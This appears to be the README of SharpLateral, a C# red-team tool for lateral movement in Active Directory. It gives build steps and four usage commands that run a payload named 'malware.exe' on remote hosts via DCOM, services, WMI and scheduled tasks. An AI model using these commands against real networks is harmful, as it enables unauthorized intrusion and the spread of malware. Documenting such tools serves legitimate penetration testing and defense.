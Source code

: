 # SharpLateral

SharpLateral is a tool that includes 4 different methods for performing lateral movement in the AD environment and is written in C# language.

## Compiling Project

Below 3rd party libraries are used in this project.

<b>TaskScheduler</b><br>https://github.com/dahall/TaskScheduler<br>
<b>Fody</b><br>	https://github.com/Fody/Fody<br><br>
Load the Visual Studio project up and go to "Tools" > "NuGet Package Manager" > "Package Manager Settings"<br>
Open "NuGet Package Manager" > "Package Sources"<br><br>
<b>Install the Fody</b><br>``Install-Package Costura.Fody -Version 3.3.3``<br><br>
<b>Install the Taskscheduler</b><br>``Install-Package TaskScheduler -Version 2.8.11``

## Usage

SharpLateral aims to perform lateral movement with the following methods:<br>

- DCOM
- SERVICE
- WMI
- SCHEDULED TASKS

  <b><br>DCOM:<br></b>
``SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe``<br>
Executes Malware on given hostname via MMC20<br>
<b><br>Scheduled Task:<br></b>
``SharpLateral schedule C:\Users\Administrator\Desktop\malware.exe TaskName``<br>
Creates Task,Executes Malware,Deletes Task<br>
<b><br>Service:<br></b>
``SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName``<br>
  Creates Service and executes malware with it<br>
<b><br>WMI:<br></b>
 ``SharpLateral redwmi Client2 C:\\Users\\Administrator\\Desktop\\malware.exe``<br>
Executes malware via WMI on remote host




